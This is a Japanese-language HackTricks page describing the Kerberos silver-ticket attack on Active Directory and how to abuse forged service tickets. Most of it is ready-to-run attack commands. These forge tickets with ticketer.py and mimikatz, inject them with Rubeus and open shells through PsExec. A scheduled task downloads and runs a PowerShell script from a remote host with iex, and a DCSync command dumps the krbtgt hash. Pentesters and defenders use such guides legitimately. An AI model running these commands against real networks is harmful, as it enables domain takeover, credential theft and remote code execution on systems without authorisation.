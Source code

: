 # シルバーチケット

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？**HackTricksで会社の広告を見たいですか？** または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロードしたいですか？** [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションです。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加するか、** Twitter **[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks)や[**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、ハッキングのコツを共有してください。**

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

**ハッキングのキャリア**に興味があり、ハッカブルではないものをハックしたい方 - **採用中です！** (_流暢なポーランド語の読み書きが必要です_).

{% embed url="https://www.stmcyber.com/careers" %}

## シルバーチケット

シルバーチケット攻撃は、**サービスのNTLMハッシュを取得した後に、そのサービスの有効なTGSを作成する**ことに基づいています（例えば、**PCアカウントのハッシュ**のように）。したがって、カスタムTGSを偽造することで、**任意のユーザーとしてそのサービスにアクセス**することが可能です。

この場合、AD内のユーザーアカウントのような**コンピュータアカウントのNTLMハッシュ**が**取得されています**。したがって、SMBサービスを通じてそのマシンに**管理者**権限で**アクセスするためのチケットを作成**することが可能です。コンピュータアカウントはデフォルトで30日ごとにパスワードをリセットします。

また、AES Kerberosキー（AES128およびAES256）を使用してチケットを偽造することが可能であり、**望ましい**（オペレーションセキュリティの観点から）ことも考慮する必要があります。AESキーの生成方法については、[MS-KILEのセクション4.4](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/936a4878-9462-4753-aac8-087cd3ca4625)または[Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372)を読んでください。

{% code title="Linux" %}
```bash
python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
```
```
Windowsでは、**Mimikatz**を使用して**チケット**を**作成**できます。次に、**Rubeus**を使用してチケットを**注入**し、最終的に**PsExec**のおかげでリモートシェルを取得できます。

{% code title="Windows" %}
```
```bash
#Create the ticket
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

#Example using aes key
kerberos::golden /user:Administrator /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /target:labwws02.jurassic.park /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
```
{% endcode %}

**CIFS** サービスは、**被害者のファイルシステムにアクセス**を可能にするものです。他のサービスはこちらで見つけることができます：[**https://adsecurity.org/?page\_id=183**](https://adsecurity.org/?page\_id=183)**。** 例えば、コンピュータに _**schtask**_ を作成するために **HOST サービス** を使用できます。これが機能したかどうかを確認するために、被害者のタスクをリストアップしてみてください：`schtasks /S <hostname>` または、コンピュータで **WMI** クエリを実行するために **HOST と** **RPCSS サービス** を使用し、テストするには：`Get-WmiObject -Class win32_operatingsystem -ComputerName <hostname>`

### 軽減策

Silver ticket イベント ID (golden ticket よりも隠密性が高い)：

* 4624: アカウントログオン
* 4634: アカウントログオフ
* 4672: 管理者ログオン

[**Silver Tickets についての詳細情報は ired.team で**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

## 利用可能なサービス

| サービスタイプ                               | サービス Silver Tickets                                                     |
| ------------------------------------------ | -------------------------------------------------------------------------- |
| WMI                                        | <p>HOST</p><p>RPCSS</p>                                                    |
| PowerShell リモーティング                        | <p>HOST</p><p>HTTP</p><p>OSによっては以下も:</p><p>WSMAN</p><p>RPCSS</p> |
| WinRM                                      | <p>HOST</p><p>HTTP</p><p>場合によっては単に要求する: WINRM</p> |
| スケジュールされたタスク                            | HOST                                                                       |
| Windows ファイル共有、または psexec            | CIFS                                                                       |
| LDAP 操作、DCSync を含む           | LDAP                                                                       |
| Windows リモートサーバー管理ツール | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                         |
| Golden Tickets                             | krbtgt                                                                     |

**Rubeus** を使用すると、以下のパラメータを使用してこれらのチケットを**すべて要求**することができます：

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

## サービスチケットの悪用

以下の例では、チケットが管理者アカウントを偽装して取得されたと想定しましょう。

### CIFS

このチケットを使用すると、**SMB** 経由で `C$` と `ADMIN$` フォルダにアクセスし（公開されている場合）、リモートファイルシステムの一部にファイルをコピーすることができます。例えば：
```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```
以下は、ホスト内でシェルを取得したり、**psexec**を使用して任意のコマンドを実行する方法についての記述です：

{% content-ref url="../ntlm/psexec-and-winexec.md" %}
[psexec-and-winexec.md](../ntlm/psexec-and-winexec.md)
{% endcontent-ref %}

### HOST

この権限を持つと、リモートコンピューターでスケジュールされたタスクを生成し、任意のコマンドを実行できます：
```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
### HOST + RPCSS

これらのチケットを使用すると、**被害者システムでWMIを実行**できます：
```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
以下のページで**wmiexecに関する詳細情報**を見つけることができます：

{% content-ref url="../ntlm/wmicexec.md" %}
[wmicexec.md](../ntlm/wmicexec.md)
{% endcontent-ref %}

### HOST + WSMAN (WINRM)

winrmを介してコンピュータにアクセスすると、**アクセス**してPowerShellを取得することもできます：
```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```
以下のページを確認して、**winrmを使用してリモートホストに接続する他の方法**を学びましょう：

{% content-ref url="../ntlm/winrm.md" %}
[winrm.md](../ntlm/winrm.md)
{% endcontent-ref %}

{% hint style="warning" %}
リモートコンピュータにアクセスするには、**winrmがアクティブでリスニングしている必要があります**。
{% endhint %}

### LDAP

この権限を持っていると、**DCSync**を使用してDCデータベースをダンプできます：
```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```
**DCSyncについてもっと学ぶ**には、次のページをご覧ください：

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

**ハッキングのキャリア**に興味があり、ハック不可能なものをハックしたい方 - **採用情報！**（_流暢なポーランド語の読み書きが必要です_）。

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？ **HackTricksで会社を宣伝**したいですか？ または、**最新版のPEASSを入手**したり、**HackTricksをPDFでダウンロード**したいですか？ [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)を手に入れましょう。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手しましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングのコツを共有するために、** [**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) と [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。

</details>
